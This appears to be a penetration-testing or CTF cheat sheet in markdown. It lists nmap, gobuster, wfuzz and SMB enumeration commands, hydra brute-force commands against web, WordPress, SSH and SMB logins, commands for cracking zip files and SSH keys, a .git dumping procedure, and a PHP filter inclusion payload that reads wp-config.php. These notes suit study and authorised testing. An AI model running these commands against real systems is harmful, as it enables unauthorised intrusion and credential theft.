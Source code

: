 # Resources

* GTFOBins - https://gtfobins.github.io/
* Payloads All The Things - https://github.com/swisskyrepo/PayloadsAllTheThings


## Enumerations 

### Basic Scan

* Agressive scan - Will perform OS detection and version detection
    * `nmap -A -oN nmap.txt target`
* Run vulnerabilities scripts
    * `nmap -script vuln -oN nmapVuln.txt target`
* Scann all the ports
    * `nmap -A -p- -oN nmapFull.txt target`

### Enumerate Web Site Folders

* `gobuster dir -e -u http://target.thm/ -t30 -w /usr/share/dirb/wordlists/common.txt  | tee gobuster.txt`
* `gobuster dir -e -u http://target.thm/ -t30 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  | tee gobuster2.txt`
* `gobuster dir -e -u http://target.thm/ -t30 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt | tee gobuster3.txt`
* `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hw 54 -t10 "target.thm/FUZZ"`

### Find SubDomains
* `wfuzz -c -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -t30 --hw 290 -H "Host:FUZZ.somedomain.com" "http://somedomain.com/"`

### Enumerate SMB
* `enum4linux -a target | tee enum4linux.txt`
* `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN nmapSamba.txt target`
* `smbmap -H target`
* `smbclient -U guest \\\\target\\IPC$`

### Enumerate Mounts
* `nmap -p PORT --script=nfs-ls,nfs-statfs,nfs-showmount -oN nmapRpc.txt target`
    * To mount: `sudo mount -t nfs target:$SOURCE_PATH $DESTINATION_PATH`
* `showmount -e target`

### Enumerate Wordpress Site
* Get users: `wpscan --url http://target/ -e vp,u`
* Get Plugins `$ nmap -sV --script http-wordpress-enum --script-args search-limit=10000 -p 80 target `
	* https://nmap.org/nsedoc/scripts/http-wordpress-enum.html

### Web Site Scan

* nikto: `nikto -h http://target/`


## Brute Forcing

### Brute Force Web Site Password
* `hydra -l SomeUser -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t64 -m '/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect' IP http-post-form`
* Basic auth: `hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f -e snr -u -t64 10.10.174.130 http-head`
* Combine wordlists: `/usr/lib/hashcat-utils/combinator.bin colors.txt numbers.txt > wordlist.txt`

#### Wordpress
* `hydra -l wade -P /usr/share/wordlists/rockyou.txt -u -f -t64 -m '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fretro%2Fwp-admin%2F&testcookie=1:S=Location' http://target/ http-post-form -v -e snr`
* `wpscan --url http://target/ --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50`

### SSH
* `hydra -l root -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t32 target ssh`

### SMB
`hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -e snr target smb`

### Brute Force Zip File
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip 

### Break ssh Key Password
```sh
python ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 
```

## Run A Python Web Server
sudo python3 -m http.server 80

## SSH Tunnel
ssh -L LOCALPORT:localhost:REMOTEPORT user@domain.com

## Dump Git From Web Site
https://github.com/internetwache/GitTools

```sh
git clone http://pwd.harder.local/.git/
./GitTools/Dumper/gitdumper.sh http://pwd.harder.local/.git/ gitFolder
./GitTools/Extractor/extractor.sh gitFolder/ gitExtracted
```

## File Inclusion

* Read a PHP file in base64 when include/require is used:
	* http://somesite.com/?VulnerableParameter=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php